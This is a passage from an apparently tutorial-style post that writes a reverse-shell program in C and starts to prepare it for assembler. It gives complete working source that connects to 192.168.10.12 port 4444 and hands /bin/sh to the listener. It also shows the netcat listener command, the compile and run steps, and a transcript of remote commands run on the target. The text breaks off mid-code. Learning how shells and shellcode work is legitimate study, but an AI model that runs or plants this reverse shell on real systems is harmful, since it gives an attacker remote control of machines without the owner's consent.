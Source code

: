     int main()
    {
        struct sockaddr_in sa;

        int fd = socket(AF_INET, SOCK_STREAM, 0);

        sa.sin_family = AF_INET;
        sa.sin_port = htons(4444);
        sa.sin_addr.s_addr = inet_addr("192.168.10.12");

        connect(fd, (struct sockaddr *)&sa, sizeof(sa));

        dup2(fd, 0);
        dup2(fd, 1);
        dup2(fd, 2);

        execve("/bin/sh", 0, 0);

        return 0;
    }

Start a listener on the remote machine 192.168.10.12. I am using openbsd-netcat.

    remote:$ nc -l 4444

Compile and run the reverse-shell program

    target:$ gcc main.c -o rshell
    target:$ ./rshell

Then on the remote machine in the shell you started the listener you can now run commands on the target

    remote:$ nc -l 4444
    ls
    main.c
    rshell
    uname -a
    Linux wandq-2 4.19.12-jumpnow #1 SMP Sat Dec 22 09:14:15 UTC 2018 armv7l armv7l armv7l GNU/Linux
    ^C

We need to know a little more about the **struct sockaddr_in** data to work with it in assembler.

I added some printfs to the code to look at it.

    #include <stdio.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    #include <sys/socket.h>
    #include <netinet/in.h>
    #include <netinet/ip.h>
    #include <arpa/inet.h>

    int main()
    {
        struct sockaddr_in sa;

        int fd = socket(AF_INET, SOCK_STREAM, 0);

